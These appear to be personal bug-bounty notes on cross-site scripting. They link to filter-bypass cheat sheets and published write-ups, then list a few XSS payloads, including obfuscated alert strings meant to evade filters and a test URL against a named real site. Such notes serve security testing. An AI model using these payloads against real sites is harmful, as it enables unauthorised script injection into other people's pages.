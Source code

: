Notes - 
- https://d3adend.org/xss/ghettoBypass
- https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet



WriteUps
- https://hackerone.com/reports/949382
- XSS + CSRF https://rohit-soni.medium.com/story-behind-sweet-ssrf-40c705f13053
- https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75
- https://hackerone.com/reports/1085914
- https://hackerone.com/reports/1082847
- https://infosecwriteups.com/how-i-made-it-to-google-hof-f1cec85fdb1b
- https://shreyapohekar.com/blogs/dont-just-sanitize-but-also-escape-a-fable-of-sanitize_text_field/

PayLoads
- "><img src=x onerror=alert(document.domain)>
- Comment - <img src="https://intensedebate.com/images/a-addblog.png" onload="alert()">
- inurl - test ‘-Function`self[‘a’\x2b’l’\x2b’e’\x2b’r’\x2b’t’]\x281\x29```-’
- inurl - test ‘-Function`self[‘a’+’l’+’e’+’r’+’t’](1)```-’
- https://exchangemarketplace.com/blogsearch?q=OnMoUsEoVeR=prompt(/hacked/)//


